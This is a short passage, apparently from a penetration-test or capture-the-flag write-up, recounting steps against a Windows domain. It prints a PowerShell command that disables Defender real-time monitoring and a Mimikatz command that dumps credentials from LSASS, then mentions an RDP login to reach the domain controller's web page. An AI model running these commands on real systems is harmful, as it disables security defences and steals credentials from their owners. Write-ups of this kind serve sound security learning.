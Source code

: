 ```
Set-MpPreference -DisableRealtimeMonitoring $true
```

We uploaded Mimikatz again and extracted the hashes from LSASS, but were not able to find anything interesting.

```
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```

<img src="attachments/02b80a789a44e8783cecd86c8bdcbff4.png" />

We used XFreeRDP to log in to the machine and accessed the port 80 page of the DC, but we encountered a prompt requiring authorization to access the page.
